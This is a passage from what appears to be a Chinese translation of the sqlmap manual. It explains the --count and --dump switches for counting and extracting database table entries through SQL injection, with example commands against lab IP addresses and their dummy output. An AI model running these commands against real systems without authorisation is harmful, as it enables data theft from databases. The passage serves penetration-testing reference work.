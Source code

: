 ```
[...]
```

### 检索表的条目数

开关: `--count`

如果用户只想知道在转储所需的表之前的表中的条目数，他可以使用这个开关。

针对Microsoft SQL服务器目标的例子:

```
$ python sqlmap.py -u "http://192.168.21.129/sqlmap/mssql/iis/get_int.asp?id=1"\
 --count -D testdb
[...]
Database: testdb
+----------------+---------+
| Table          | Entries |
+----------------+---------+
| dbo.users      | 4       |
| dbo.users_blob | 2       |
+----------------+---------+
```

### 把数据库表条目

开关和选项: `--dump`, `-C`, `-T`, `-D`, `--start`, `--stop`, `--first`, `--last`, `--pivot-column` 和 `--where`

当会话用户访问特定数据库的表时，可以转储表项。

这个功能依赖于选项`-T`来指定表名，或者选择`-D` 来指定数据库名称。如果提供了表名，但数据库名不是，则使用当前数据库名称。

针对Firebird目标的例子:

```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/firebird/get_int.php?id=1"\
 --dump -T users
[...]
Database: Firebird_masterdb
Table: USERS
[4 entries]
+----+--------+------------+
| ID | NAME   | SURNAME    |
+----+--------+------------+
| 1  | luther | blisset    |
| 2  | fluffy | bunny      |
| 3  | wu     | ming       |
| 4  | NULL   | nameisnull |
+----+--------+------------+
```

这个开关还可以用来转储提供的数据库的所有表的条目。你只需要提供sqlmap和开关`--dump`以及只有选项`-D`(不用`-T`和`-C`)。

您还可以提供与选项 `-C`转储的特定列的逗号分隔列表。
